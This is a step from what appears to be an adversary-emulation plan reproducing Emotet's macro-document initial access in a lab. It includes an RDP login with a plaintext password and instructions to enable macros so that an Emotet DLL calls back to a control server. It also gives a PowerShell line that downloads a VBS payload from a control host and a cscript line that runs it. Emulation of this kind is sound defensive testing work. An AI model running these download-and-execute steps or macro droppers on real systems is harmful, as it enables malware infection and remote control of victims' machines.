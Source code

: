 Open a new terminal tab (ctrl-shift-T); double click the terminal tab and rename it to "RDP to Dorothy"

RDP into Dorothy / 10.0.0.7 as user Judy:

```bash
xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

1. Open outlook if its not already open, log in to Office account if not already logged in

2. Open the ChristmasCard.docm document on the desktop; enable macros when prompted.

3. You should see a terminal flash; wait for it to execute the Emotet DLL.

4. Go back to your control server tab; you should have a new callback.

5. Take a screenshot of your new session, and paste in the vendor slack channel.

```
# Emotet has sent Microsoft Word documents with embedded macros that will invoke scripts to download additional payloads. [6][13][2][8][12]
```
[Source Code - Dropper Word Document](../../Resources/Emotet_Dropper)

[Source Code - Emotet DLL](../../Resources/Emotet)


<br>

`For testing without MS Office; be aware that this is not identical to the Word document implementation - the process lineage and file paths change significantly with this method.`

Open PowerShell and run:

```pwsh
Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile $env:AppData\adb.vbs
```

```pwsh
# Wizard Spider has used HTTP for network communications.[5]

cscript.exe $env:AppData\adb.vbs
```

### :microscope: Cited Intelligence

* https://documents.trendmicro.com/assets/white_papers/ExploringEmotetsActivities_Final.pdf

* https://www.symantec.com/blogs/threat-intelligence/evolution-emotet-trojan-distributor

* https://www.picussecurity.com/blog/the-christmas-card-you-never-wanted-a-new-wave-of-emotet-is-back-to-wreak-havoc.html

* https://www.carbonblack.com/2019/04/24/cb-tau-threat-intelligence-notification-emotet-utilizing-wmi-to-launch-powershell-encoded-code/

* https://blog.talosintelligence.com/2019/01/return-of-emotet.html

## Step 2 - Emotet Persistence
